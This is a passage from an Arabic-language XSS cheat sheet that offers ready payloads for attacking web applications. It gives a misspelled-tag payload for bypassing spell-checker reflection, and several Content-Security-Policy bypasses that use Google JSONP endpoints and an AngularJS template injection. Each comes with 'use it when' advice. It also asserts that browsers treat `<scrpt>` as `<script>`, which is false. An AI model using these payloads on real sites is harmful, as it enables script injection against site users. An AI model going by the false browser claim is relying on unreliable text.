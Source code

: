 **مثال يعمل:**
- `<scrpt>confirm(1)</scrpt>`: يُدخل كود مشابه لـ `<script>` لكن بحرف خاطئ (`scrpt`)، يُنفذ عند عرض الاقتراح.

**لماذا يعمل؟**
- مدقق الإملاء قد يعكس المدخلات بدون تعقيم.
- `<scrpt>` يُفسر كـ `<script>` في المتصفحات الحديثة.
- يتجاوز مرشحات تبحث عن `<script>` القياسي.

**📌 استخدمها لما:**

- الموقع فيه ميزة "هل كنت تقصد...؟"
    
- وإنت بتدخل كلمة خاطئة، وهو بيرد عليك بإعادة الكلمة المقترحة.
    

🧪 **مثال:**

```html
<scrpt>confirm(1)</scrpt>
```

**الخلاصة:**
تجاوز مدقق الإملاء باستخدام `<scrpt>confirm(1)</scrpt>` فعال لأنه يستغل انعكاس المدخلات غير المُنظفة في ميزة "هل تقصد".

---
###  تجاوز سياسة أمان المحتوى (CSP Bypass for Whitelisted Google Domains)**
{ #XSS_other_idea }
**الشرح البسيط:**
يُستخدم عندما تسمح سياسة CSP بمجالات Google الموثوقة. يمكنك استخدام خدمات Google لتنفيذ JavaScript أو AngularJS.

**أمثلة تعمل:**
- `<script src=//www.google.com/complete/search?client=chrome%26jsonp=alert(1)></script>`: يستغل ميزة البحث التلقائي لتنفيذ `alert(1)`.
- `<script src=//www.googleapis.com/customsearch/v1?callback=alert(1)></script>`: يستغل البحث المخصص.
- `<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js></script><x ng-app ng-csp>{{$new.constructor('alert(1)')()}}`: يُحمل AngularJS ويُنفذ XSS.

**لماذا يعمل؟**
- CSP قد تسمح بـ `*.google.com` أو `*.googleapis.com`.
- خدمات Google مثل البحث تدعم استدعاءات JSONP التي تُنفذ JavaScript.
- AngularJS يُنفذ XSS إذا كان `ng-csp` غير مُفعل بشكل صحيح.
ns

**📌 استخدمها لما:**

- الصفحة عندها Content-Security-Policy.
    
- لكن بتسمح بـ `*.google.com` أو `ajax.googleapis.com`.
    

🧪 **مثال:**

```html
<script src="//www.google.com/complete/search?client=chrome&jsonp=alert(1)"></script>
```
